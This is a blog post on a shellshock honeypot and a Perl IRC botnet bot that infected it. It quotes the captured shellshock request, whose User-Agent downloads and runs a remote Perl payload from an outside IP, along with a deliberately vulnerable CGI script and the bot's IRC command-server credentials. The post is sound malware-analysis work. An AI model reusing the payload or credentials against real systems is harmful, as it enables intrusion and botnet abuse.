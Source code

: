 ```yaml
---
layout: post
title: "A close look at an operating botnet"
description: ""
tags: [Malware, Data]
image: /assets/images/botnet/cover.png
---
```

{% include JB/setup %}

For those that don't know, a [botnet](https://en.wikipedia.org/wiki/Botnet) is a network of hacked computers that somehow connect
back to a command and control server which instructs the network to conduct malicious activities like DDOS attacks, phishing, or spam.

# What happened

This past summer, I decided to set up a honey pot server.  I hadn't done something like
that before and I was curious to see what would show up.

I set up a fresh Digital Ocean instance and installed a vulnerability that could be
remotely exploited.  I choose to use the [shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
bug and installed an [older version of bash](http://ftp.gnu.org/gnu/bash/).  Shellshock was a vulnerability in Bash that
would execute code in a environment variable.  This can easily be exploited remotely because of how CGI web servers
pass arguments through environment variables.

After installing Bash 4.2, I set up an Apache web server to serve CGI.  So common URL's
and 404's would all map to one simple, shellshock-vulnerable script:

```bash
#!/bin/bash
echo -e "Content-type:text/html\r\n\r\n"
echo "Hi $HTTP_USER_AGENT"
```

Functionally the script just returns a text page saying hi to whatever the user agent string was.  But if an HTTP request
were to look something like this:

```
GET /hello HTTP/1.1
Host:        104.131.107.238
User-Agent:  () { :;}; /bin/bash -c "cd /tmp;lwp-download -a http://23.229.121.189/ex;curl -O http://23.229.121.189/ex;wget http://23.229.121.189/ex;perl /tmp/ex*;perl ex;rm -rf /tmp/ex*"
```

Then Bash 4.2 will execute the code in the User-Agent string, which downloads a Perl script, [ex](https://github.com/conorpp/fluffy-barnacle/blob/master/malware/ex), and runs it.

This after leaving the server running for a couple months, that is exactly what happened.

# Analysis

To summarize the Perl script, it's about 500 lines, connects to a server, `wileful.com`, and listens for commands.
[Some of the commands](https://github.com/conorpp/fluffy-barnacle/blob/master/malware/ex#L298) it looks for
include `tcpflood`, `eval`, and `shell`.  This looks like functionality for a botnet bot.  

It also implements some stealth.  Upon running the program,
it immediately [forks](ihttps://github.com/conorpp/fluffy-barnacle/blob/master/malware/ex#L39) a `/usr/sbin/httpd` process,
overwrites it with the Perl process using `exec`, and detaches from the parent process so it
can run independently in the background.

So you won't be able to see a new perl process running.  Instead, a new `/usr/sbin/httpd` process will be running.

```bash
root@b0b6000146fa:~# perl ex
root@b0b6000146fa:~# ps aux |grep perl
root        31  0.0  0.0   8860   648 ?        S+   16:30   0:00 grep --color=auto perl
root@b0b6000146fa:~# ps aux |grep httpd
root        29  0.0  0.0  24516  3856 ?        S    16:30   0:00 /usr/sbin/httpd
root        33  0.0  0.0   8860   644 ?        S+   16:30   0:00 grep --color=auto httpd
```

If you check the CPU usage of processes, however, `/usr/sbin/httpd` sticks out like a sore thumb because it
[polls the server socket with no timeout](https://github.com/conorpp/fluffy-barnacle/blob/master/malware/ex#L83)
after it connects.  This spins the CPU (oops).

```
# Output from top
  PID USER      PR  NI    VIRT    RES    SHR S   %CPU %MEM     TIME+    COMMAND
  8440 root     20   0   24984   3696    408 R   99.9  0.7     1921:38  /usr/sbin/httpd
```

I wanted to see what the program communicated with the server so I put it in a docker container and ran tcpdump.
After it initially connected with the server, these messages were sent:

```bash
# Bot  (5.9.118.150 is wileful.com)
USER GNU 104.131.107.238 5.9.118.150 :GN
PASS swedenrocks
# Server
:Unreal.conf NOTICE AUTH :*** Looking up your hostname...
:Unreal.conf NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
:Unreal.conf 433 * GNU :Nickname is already in use.
NICK GNU4387
# Server
PING :DEFB9868
# Bot
PONG :DEFB9868
# Server
:Unreal.conf 001 GNU4387 :Welcome to the XpowerHost IRC Network GNU4387!GNU@104.131.107.238
:Unreal.conf 002 GNU4387 :Your host is Unreal.conf, running version Unreal3.2.10.5
:Unreal.conf 003 GNU4387 :This server was created Mon Sep 28 2015 at 20:41:48 EDT
```

Some of you may immediately recognize this as IRC.  This botnet seems kind of old school: no SSL
and controlled over IRC.

Well it looks like I have a username, password, and server address.  Why don't I try logging
into the botnet with a regular IRC client?

I fired up another docker instance, [Weechat](https://weechat.org/), and a tor proxy.  After
connecting to `irc://GNU:swedenrocks@wileful.com:443`, this is what I saw:

![Connected to botnet](https://i.imgur.com/undefined.png "Connected to a botnet")

Wow, there's a total of 977 connected 'users' and 6 different channels.  As seen from tcpdump, my bot was instructed
to join channel `#113` so I figured I would do the same:

![Channel #113](https://i.imgur.com/o6MzqGl.png "Channel #113")

Either all 932 clients in the channel are pretty unoriginal when coming up with a nick or the bots are assigned a nick formatted like `GNU<ID>`.
Everyone is really shy too, because no one says anything.  After idling in the channel for a few minutes, this is all to be
seen:

![Just leaving and joining](https://i.imgur.com/5cJDsy5.png "Just leaving and joining")

Looks like bots are actively leaving and joining.  I suspect that the operaters were moving around the bots
or were continually exploiting shellshock vulnerable machines like my honey pot.

I wanted to see if I could send commands to the botnet since I had access to the channels, but after
a couple hours of unfurling the perl script, I discovered that it [authenticates](https://github.com/conorpp/fluffy-barnacle/blob/master/malware/ex#L127) commands based on the
[servername and nickname in the IRC message](https://tools.ietf.org/html/rfc2812#section-2.3.1).  I
could not spoof this since it was something only an operator on the IRC network could do.

# Back to the infected honey pot

I let my infected honey pot run for a few days and I checked out
the IRC tranactions in the pcap logs.  On intervals it would do the following:

* Download a script to send emails with attachments.
* Download a list of email addresses.
* Run the script with the list of emails and possibly other files.

This is probably for phishing attacks or spam.  No DOS attacks.

# Conclusion

I didn't want my honey pot to be contributing to illegal activities, so I shut it down.

It wasn't long before I couldn't log in to the IRC network on `wileful.com`.  

![No more access](https://i.imgur.com/bhKCFjm.png "No more access")

At first I thought I got
locked out, but after scanning it from multiple different IP addresses I never used before,
it was still unresponsive.  I suspect that the botnet moved to another server or stopped accepting new connections.


My setup for the honey pot and my results from this analysis can be found [here](https://github.com/conorpp/fluffy-barnacle).
If you have any similar experience with this or know more, please send me a message. I'd like to learn more.
